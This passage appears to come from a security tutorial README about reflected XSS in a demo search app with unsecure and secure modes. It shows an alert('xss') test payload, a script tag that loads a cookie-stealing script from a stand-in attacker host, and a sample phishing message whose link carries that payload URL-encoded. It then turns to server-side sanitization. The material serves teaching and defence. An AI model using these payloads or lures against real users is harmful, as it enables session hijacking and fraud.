 Try this in our client. First, ensure the "unsecure" option is toggled, then
try searching something benign, like "icanhaz". Then, try searching for something
mischievous, like `<script type='text/javascript'>alert('xss');</script>`.

![unsanitized input reflected to user](assets/images/reflected-unsanitized.gif)

This server is not **sanitizing our requests**. Take a peek at the "default" code
responding to such a request at
[`api/app/controllers/search`](./api/app/controllers/search).

How is this exploitable? 

Our demo application is a **stateless application**, and
no request URLs other than the root (`/`) will hit the client server directly. The
API server, for the most part, is only manipulatable through the client.
**However**, with client-side routing, or with a traditional server-rendered
application, the following exploit becomes possible:

```
<script src="http://my.legit.site/cookie-upload.js"></script>
```

> Hi! I'd like to give you $10,000, no personal information like bank
> account numbers or credit cards required. I've already got that set
> up, just `[click
> here](http://floogle.com/search?q=%3Cscript%20src%3D%22http%3A%2F%2Fmy.legit.site%2Fcookie-upload.js%22%3E%3C%2Fscript%3E)`
> to start the process.

Since Alice is authenticated with Bob's application, the injected
script could send Alice's session information to Mallory (the attacker).

Now, try toggling the search to "secure" in the client. Reissue both your normal and
your mischievous requests. Try combining both searches queries into a single
request. Let's look at the sanitary response code in
[`api/app/controllers/search`](./api/app/controllers/search). We're relying on
the external `sanitizer` library to sanitize, or optionally escape, our
output. 

What should you consider when adopting a third-party security solution?

![sanitized input reflected to user](assets/images/reflected-server-sanitized.gif)
